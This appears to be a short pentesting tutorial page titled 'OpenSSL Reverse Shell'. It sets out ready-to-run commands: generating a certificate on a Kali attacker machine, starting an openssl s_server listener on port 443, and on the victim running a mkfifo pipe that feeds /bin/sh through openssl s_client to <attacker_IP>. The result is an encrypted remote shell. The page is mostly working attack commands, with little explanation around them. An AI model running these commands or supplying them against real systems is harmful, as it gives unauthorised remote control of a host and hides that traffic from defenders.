


OpenSSL Reverse Shell
This method involves to use an OpenSSL client and
server-based technique in conjunction with what are known as
mkfifo named pipes
Check
What are mkfifo named pipe & How they
work1. generate an SSL certificate key pair for our listener on the
attacker machine. This will create two files, “key.pem” and “cert.pem” files
root@kali:/# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
2. start up a listener on the
attacker machine using the
openssl s_server command. That will start up an openSSL listener with our certificate and associated
key on port 443
root@kali:/# openssl s_server -quiet -key key.pem -cert cert.pem -port 443
*if the target use the old version of tls (tls 1.0)
root@kali:/# openssl s_server -quiet -key key.pem -cert cert.pem -port 443 -tls1
4. on the
target system, we create a mkfifo named pipe as a file
called “x” in /tmp in conjunction with an
openssl s_client -quiet -connect command that will connect
back to our attacker machine, and give us a shell on the victim host (over SSL):
target@debian:~$ mkfifo /tmp/x
target@debian:~$ /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <attacker_IP>:443 > /tmp/x
target@debian:~$ rm /tmp/x
 